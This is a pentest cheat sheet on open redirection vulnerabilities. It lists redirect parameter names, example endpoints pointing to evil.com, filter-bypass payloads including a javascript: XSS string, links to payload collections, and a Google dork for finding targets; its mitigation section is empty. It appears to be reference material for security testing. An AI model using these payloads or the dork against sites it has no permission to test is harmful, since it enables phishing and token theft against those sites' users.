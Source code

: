 ## Open Redirection
### Chaining: -> SSRF, Oauth Token Disclosure, XSS, CRLF
***
1. **Description**
```
- Open redirection vulnerabilities arise when an application incorporates user-controllable data into the target of a redirection in an unsafe way. An attacker can construct a URL within the application that causes a redirection to an arbitrary external domain. This behavior can be leveraged to facilitate phishing attacks against users of the application. 
- Open Redirect is a vulnerability in which the attacker manipulates a web page to redirect the users to unknown destinations (malicious/phishing destinations in most of cases).
```
2. Redirection Parameter
```
url
rurl
u
next
link
lnk
go
target
dest
destination
redir
redirect_uri
redirect_url
redirect
redirectUrl
r
view
loginto
image_url
return
returnTo
return_to
continue
return_path
path
/out?{payload}
?view={payload}
/login?to={payload}
```
3. Example/Exploitation/Affected Functionality
```
- Login, Logout, Register, Singup, Links, change site language, password reset
- /logout/google.com
- /signup?redirectUrl=https://evil.com
```
4. Bypass Method
```
//google.com
https:google.com
%2f%2fgoogle.com
\/\/google.com/
/\/google.com/
//google%E3%80%82com   (Bypass . char)
//google%00.com
?next=whitelisted.com&next=google.com
http://www.theirsite.com@yoursite.com/
http://www.yoursite.com?http://www.theirsite.com/
/redirect.php?url=javascript:prompt(1)    (xss from open redirection)
?next=whitelisted.com&next=google.com     (using same parameter twice)
```
5. Mitigation
6. Payload Links
```
https://github.com/cujanovic/Open-Redirect-Payloads/blob/master/Open-Redirect-payloads.txt
https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect
```
7. References
8. Tools
9. Google Dorks
```
inurl:redirectUrl=http site:target.com
```
